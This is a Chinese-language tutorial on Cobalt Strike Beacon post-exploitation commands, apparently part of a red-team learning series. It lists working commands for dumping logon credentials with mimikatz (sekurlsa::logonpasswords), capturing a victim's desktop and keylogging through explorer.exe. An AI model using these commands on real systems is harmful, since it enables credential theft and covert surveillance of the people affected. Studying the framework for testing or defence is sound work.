 # Cobalt Strike Beacon 基础信息搜集

> 原文：[https://www.zhihuifly.com/t/topic/3641](https://www.zhihuifly.com/t/topic/3641)

# Cobalt Strike Beacon 基础信息搜集

```
getuid `查看当前 shell 权限,如下可以看到,当前是以系统内建的 administrator 用户权限在操作` 
```

```
ps 

查看当前系统进程列表 [ 默认它已经事先把 64 位和 32 进程区分清楚了,这也是为什么不去用系统自带的 tasklist 工具的原因,比如,后面某些功能就需要你明确指明目标进程是 32 还是 64 位的 ] 
```

![image](img/4ca2cc373164de3628c92cf57c3b05a9.png)

```
kill 3292 `杀掉指定 id 的进程,比如,杀掉这个记事本进程` 
```

```
shell query user 

执行 win 系统的各种原生 cmd 命令,命令参数正常带上执行即可 
```

```
shell mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" 

shell 也可以用来执行自己上传的一些 命令行程序,比如,mimikatz.exe 执行完之后它会把执行的结果再回显回来 
```

![image](img/0079e145d414067e35b31169c6ff8bce.png)

```
execute mimikatz.exe "log" "privilege::debug" "sekurlsa::logonpasswords" "exit" `跟 shell 功能有所不同,同样都是执行指定命令行程序,但 shell 会把执行结果回显回来,而 execute 则不会,至于到底执行成功没,还需要用其它方式来判断` 
```

![image](img/b458f4c32b0953e4305ae53af1687792.png)

> 特别注意这个截屏功能,因为我们现在是在正常的 administrator 用户权限下操作的[标准用户环境],所以,通过 explorer.exe 就直接能截取到目标桌面,如果你当前是在 system 权限下则必须先把自己降权或切换到一个正常的正在线系统用户权限上,这样才能正常截到目标桌面

```
screenshot x64 2656 1 `对用户桌面进行截屏` 
```

![image](img/2413e74660b572a0bc1a311415ff5dc5.png)

![image](img/bf154b6392ab3bcc73f18dee484afcba.png)

```
keylogger 2656 x64 `常规键盘记录,同样还是指定 explorer.exe 进程进行截获` 
```

![image](img/c58e652aa28e1fa8b79a877cb059c100.png)

> 如下,我们看到中文显示乱码了,很正常,因为我们用的这个 CobaltStrike,几乎是原生的默认也没有调整编码,所以,不用太在意,后期等整个系列全部更新完,视情况也许会给大家一个调整好的用

![image](img/30c12349f75ca25b230767234844b7ff.png)